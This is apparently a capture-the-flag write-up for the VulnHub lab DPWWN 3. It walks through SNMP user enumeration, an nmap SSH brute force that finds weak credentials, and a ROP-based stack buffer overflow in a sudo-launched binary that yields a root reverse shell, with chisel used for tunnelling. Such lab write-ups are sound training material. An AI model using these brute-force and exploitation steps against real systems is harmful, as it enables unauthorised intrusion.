# DPWWN 3

Difficulty:: #Easy
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [DPWWN: 3](https://www.vulnhub.com/entry/dpwwn-3,345/)
- CVSS3 : [AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H/E:P/RL:O/RC:C/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H/E:P/RL:O/RC:C/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*This boot2root is a linux based virtual machine and has been tested using VMware workstation. Goal: Get the root shell and then obtain flag under /root(dpwwn-03-FLAG.txt).*


## Summary
DPWWN: 3 starts with only an `SSH` port open on TCP and an `SNMP` open UDP port, with the `snmp-check` I could enumerate the user `john` and with the `ssh-brute` `nmap` script I find the credentials `john:john`, when exploring the server I find the Linux binary `smashthestack`, and it is a `32-bit` executable that can be run with `sudo` privileges, after analyzing it with `Ghidra` I identify that is vulnerable to a Stack Buffer Overflow, with the help of the Return oriented Programing ROP paradigm, and with `gdb` and the `PEDA` tools I could exploit the buffer overflow vulnerability and get a reverse shell to the `root` user, and get the `root` flag.

1. CWE-1391: Use of Weak Credentials
2. CWE-269: Improper Privilege Management
3. CWE-121: Stack-based Buffer Overflow

#VMWare #Nmap #Ghidra #Pwntools #Python #GDB #MD5  #Burpsuit #SNMP #snmp-check #UDP #ssh-brute #BufferOverflow #ROP #PEDA #Perl #Chisel

## Enumeration
When I run the target machine in VMware Workstation 17 Player (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s3 -r 192.168.56.0/24
```
Then I compare the MAC with that of the target VMware configuration, and I find out that the IP is `192.168.56.110`



And I start scanning the target with `nmap`:
```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-scan -Pn 192.168.56.110
...SNIPPED...
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
161/tcp closed snmp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
...SNIPPED...
```
Then I identify 1 open port, and it is the `OpenSSH 7.9p1` service that runs on `22` TCP, and it runs on `Debian 10`.

When I scan the `UDP` ports with the `nmap` command:
```shell
$ nmap -p- -sU -oA scans/nmap-full-udp-scan -Pn 192.168.56.110
...SNIPPED...
PORT    STATE  SERVICE
22/udp  closed ssh
161/udp open   snmp
MAC Address: 00:0C:29:A2:A1:A0 (VMware)
...SNIPPED...
```
Then I identify 1 open port, and it is the `SNMP` service that runs on `161` UDP


## Normal use case
Given I can access `SSH` with `192.168.56.110:22`, but I do not have any credentials, then I can do anything in a normal case.

## Dynamic detection
Leak user with `SNMP` and weak password for `ssh` session.

Given I can access `SNMP` on UDP `161` with `192.168.56.110`, then I can enumerate the `SNMP` service.
When I use the `snmp-check` command:
```shell
$ snmp-check 192.168.56.110
...SNIPPED...
Host IP address : 192.168.56.110
Hostname        : dpwwn-03
Description     : Linux dpwwn-03 4.19.0-5-686-pae #1 SMP
Contact         : john <john@dpwwn-03>
Location        : john room
...SNIPPED...
```

## Exploitation

Then I can identify the user `john`, and since there are no more open ports, then I try to brute-force the `ssh` password of the user `john`. When I use the `nmap` command with the `ssh-brute` script., and I store the name `john` in the file `username`:
```shell
$ nmap -p22 --script ssh-brute --script-args
> unpwdb.timelimit=7h,userdb=username 192.168.56.110 -Pn

...SNIPPED...
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute:
|   Accounts:
|     john:john - Valid credentials
|_  Statistics: Performed 5 guesses in 2 seconds, average tps: 2.5
...SNIPPED...
```
Then I identify that the credentials `john:john` works.

When I use the `ssh` command:
```shell
$sshpass -p "john" ssh john@192.168.56.110
```
Then it works:



And I can conclude that the user `john` uses a weak password.

## Privilege escalation
Stack-based Buffer Overflow in binary found inside the server.

Given I can access `192.168.56.110:22`, and I know the credentials `john:john`, then I can enumerate the server to identify a way to escalate privileges. When I use the `id` command:
```shell
john@dpwwn-03:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),24(cdrom),25(floppy),
29(audio),30(dip),44(video),46(plugdev),109(netdev)
```
And I identify the groups to which john belongs.
When I explore john's home directory:
```shell
john@dpwwn-03:~$ ls -la
...
-rw-r--r-- 1 root root   243 Aug 12  2019 Hello_john.txt
-rw-r--r-- 1 john john   807 Aug 10  2019 .profile
-rwxr-xr-x 1 john john 19824 Aug 12  2019 smashthestack
-rw------- 1 john john   837 Aug 12  2019 .viminfo
```
When I read the file `Hello_john.txt`:
```txt
Hello John,
As discussed with you, I had prepared one echo server & for testing
purpose keep the binary file in your directory named as "smashthestack".
Please check. Please be in mind, still the "smashthestack" in development
phase. Thanks.
```
When I use the `scp` command:
```shell
$ sshpass -p "john" scp john@192.168.56.110:/home/john/smashthestack .
```
Then I copy the `smashthestack` binary to my local machine. When I use the `file` command:
```shell
$ file smashthestack
smashthestack: ELF 32-bit LSB pie executable, Intel 80386,
version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2,
for GNU/Linux 3.2.0,
BuildID[sha1]=90870d685583ed72f4ca46991ef7b8c1b22c3992, with debug_info,
not stripped
```
Then I confirm that it is executable.
When I check the security of the binary:
```shell
$ pwn checksec smashthestack
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
Then I find that `PIE` is enabled, and that means every time I run the file, then it will be loaded into a different memory address. When I decompile it with Ghidra, then I identify the `main` function:



And I find out that it opens a socket on TCP `3210`, and it listens to a maximum of `1024` bytes of input data, and it runs a `vulncode` function with the input data. When I check that function, and the vulncode goes from line 4 to 11:
```C
4 int vulncode(int stack1,char *reply)
6 {
7   char result [720];
9   strcpy(result,reply);
10   return 0;
11 }
```
And the `strcpy` tries to copy a max of `1024` bytes into a `720` bytes buffer, then I can conclude that is vulnerable to stack buffer overflow, but to use it to escalate privileges, it must be running as the root user. When I use the `netstat` command:
```shell
$ john@dpwwn-03:~$ netstat -tnlp
...
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State  PID/Program name
tcp        0      0 0.0.0.0:22    0.0.0.0:*       LISTEN -
tcp6       0      0 :::22         :::*            LISTEN -
```
Then I can confirm that the only TCP service is on port `22`, and at this point it is strange, then I continue to enumerate the user `john`. When I use the `sudo` command:
```shell
$ john@dpwwn-03:~$ sudo -l
...
User john may run the following commands on dpwwn-03:
    (root) NOPASSWD: /bin/sh /home/ss.sh
```
Then I see that I can run `/bin/sh /home/ss.sh` as the root user. When I check the `/home` directory:
```shell
$ john@dpwwn-03:~$ ls -la /home
...
drwxr-xr-x  3 john john  4096 Aug 12  2019 john
-rwxr-xr-x  1 root root 19824 Aug 12  2019 smashthestack
-rwxr-xr-x  1 root root   123 Aug 12  2019 ss.sh
```
Then I find another `smashtestack` file. When I check the `md5` hash on both binaries:
```shell
$ john@dpwwn-03:~$ md5sum smashthestack ../smashthestack
fd80573a0431f07672f35879c2fe1814  smashthestack
fd80573a0431f07672f35879c2fe1814  ../smashthestack
```
Then I  can conclude that they are the same binary. When I see the `/home/ss.sh` file:
```bash
#!/bin/sh
SHELL=/bin/bash
PATH='/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/home'
/home/./smashthestack &
```
Then I start to understand how to escalate privileges, and I can run the `/home/ss.sh` script as the root user, and after that, I could exploit the binary vulnerability. When I run the script:
```shell
$ john@dpwwn-03:/home$ sudo /bin/sh /home/ss.sh
Thank you for run this program
Welcome to Echo System
Check this system TCP port 3210
```
Then now the `smashthestack` binary is running in the background, and I start playing with the binary locally.

Given I can run the `./smashthestack` binary locally, and I already identified a buffer overflow vulnerability, but I need to find a way to bypass the `PIE enabled` security function, then I start reading about it. When I start looking at `0xdf's blog`, and I find the [htb-smasher-bof write-up](https://0xdf.gitlab.io/2018/11/24/htb-smasher-bof.html) , then I identify that I can use `return-oriented programming ROP`, and the ROP uses the latest instructions for each function, and they are called `gadgets`, and some tools allow you to list the gadgets in each binary and `0xdf` mentions the [`PEDA` tool](https://github.com/longld/peda.git). When I clone the repository:
```shell
$ git clone https://github.com/longld/peda.git ~/peda
```
And I add it to my `~/.gdbinit` file:
```shell
$ echo "source ~/peda/peda.py" >> ~/.gdbinit
```
And when I run the `smashthestack` locally:
```shell
$ ./smashthestack
```
And I identify the process `PID`:
```shell
$ ps aux | grep smashthestack
18250  0.0  0.0 2448   524 pts/12  S+  12:33   0:00 ./smashthestack
```
And with the `PID`, I use the `gdb` command:
```shell
$ gdb -q --pid 18250
```
And inside `GDB`, I use the `dumprop` command:
```shell
$ gdb-peda$ dumprop
Writing ROP gadgets to file: smashthestack-rop.txt ...
0x5659c00a: ret
0x5659c1a7: nop; ret
0x5659c1a1: leave; ret
0x5659c01e: pop ebx; ret
0x5659c453: pop ebp; ret
...
```
But every time I run the binary, the address is different. When I search in Hacktricks, I find the post [`Bypassing Canary & PIE`](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/bypassing-canary-and-pie#pie):



And it says I need to leak an address, but in my case, there is no response from the binary, then my best choice is to brute-force an address, but the article also says that the last 1 byte and a half are fixed. When I run the binary several times, and I check the `dumprop` command. Then I can confirm that the address has a pattern, and for example, if I look at the first address `0x5659c00a` then I see that the structure `0x56xxx00a` is kept, and only 3 hexadecimal numbers change. When I calculate the number of combinations for 3 with 16 elements, then I identify that there are `4096` combinations, and that is a small number
And a brute force attack looks promising.

When I google `ROP in 32 bits binary stack overflow`, then I find several articles,and I could understand that the **ROP is based on two things mainly: the first is the behavior of the `ret` assembly instruction, and the second is the availability of many `ret` instructions in the code**. When the compiler encounters the `ret` instruction, then the `eip` pointer is moved to the address that is in `esp`, and after that, the `esp` address is incremented by `4` bytes, and the code at the new address is executed and because this code also has a `ret` instruction. and that means the `eip` will point to the new value in `esp`, and this continues until we execute the code we want. When I ordered these ideas, then I decided to find a way to make the `eip` register point to the `esp`, and with that, I could execute the code that I send in the payload, but with the `dumprop`, I couldn't find any `jmp esp` instruction, then I start to explore the addresses with `GDB`. When I run the binary locally as I showed above, and I put a breakpoint in the vulncode function with `GDB`, And I send the following payload with exactly `720` bytes:
```shell
$ echo $(perl -e 'print "A" x 720 ') | nc -nv 127.0.0.1 3210
```
Then I can explore the memory of the proces:



When I put two breakpoints in the `vulncode` function, and the first at the beginning of the function, and the second after the `strcpy` function is called, then I can see:



And I need `12` more bytes to get to the `ret` address, and I also notice that after the `ret`'s address, the arguments are found and those arguments were the ones that entered the `vulncode` function, And I can identify that the payload is a reference like a pointer, and this is because `strings` are pointers in C, then if I can use `ROP` to get the `eip` to that pointer, then I could run the code at the beginning of the payload, and I write a script to test it, and for the test, I will use the known address of the gadgets
When I write a Python3 script [overflow.py](./static/overflow.py), and I run the binary, and debug it with `GDB`, and before running the `overflow.py` script, I run `dumprop`, and I look for a single `pop` instruction:



And I confirm that the `vulncode`'s return now is overwritten, and now, it has the `pop` gadget address:



And the `pop` instruction will take the current value in `esp`, and that is the first argument of the vulncode function, and with that, the `esp` now increases by `4` bytes, and the `ret` of the gadget will make the `eip` take the value of `esp`, and `esp` points to the second argument in the `vulncode` function, and that value is the pointer to the string of my payload, then I successfully hit the payload with the `eip`:



And now, I am going to brute-force the address of that gadget, when I write a bash script: [bruteforceaddr.sh](./static/bruteforceaddr.sh) and I run it locally and it uses the `overflow.py` file, then after about `11` minutes, I get the reverse shell:



And now to attack the server, I have a constraint, and it is that the service runs locally in the service, then I decided to create a reverse proxy, when I download the `chisel` tools, And I choose the one compatible with the server system:
```shell
$ wget -O chisel.gz "https://github.com/jpillora/chisel/releases/
> download/v1.8.1/chisel_1.8.1_linux_386.gz"
```
And I send it to the target server with the `scp` command:
```shell
$ sshpass -p "john" scp chisel.gz john@192.168.56.110:/home/john/
```
And I extract it from my local machine, and in the target machine:
```shell
$ gzip -d chisel.gz
```
And I give it execution permissions, and on the local machine, I run the `chisel server` command:
```shell
$ chisel server -p 8090 --reverse
```
And In the target machine, I run `chisel client` command:
```shell
$ john@dpwwn-03:$ ./chisel client 192.168.56.101:8090 \
> R:9631:127.0.0.1:3210
```
But it fails, and I identify that I can not use the same address `0x56xxx01e`, and I identify that I can use the `GDB` command on the server. when I run the binary on the target server, and identify the `PID`, in this case, it is `1859`, and I run the `gdb` command:
```shell
$ john@dpwwn-03:~$ gdb -q --pid 1859
```
And I run the `dumprop` command:
```shell
$ gdb-peda$ dumprop
...SNIPPED...
0x40100a: ret
0x4011a7: nop; ret
0x4011a1: leave; ret
0x40101e: pop ebx; ret
...SNIPPED...
```
When I check those addresses several times on the server, then I notice that the address `0x40101e` is fixed, and thats means, I do not need the bruteforce address step, and I tried with that addresss, and it works, and I get the reverse shell with the root user:



And I get the root flag:



## Remediation
Given vulnerable binary, and use `strcpy_s()` instead of `strcpy()`, and don't use weak passwords, then with that, it may not be possible to get the root's shell.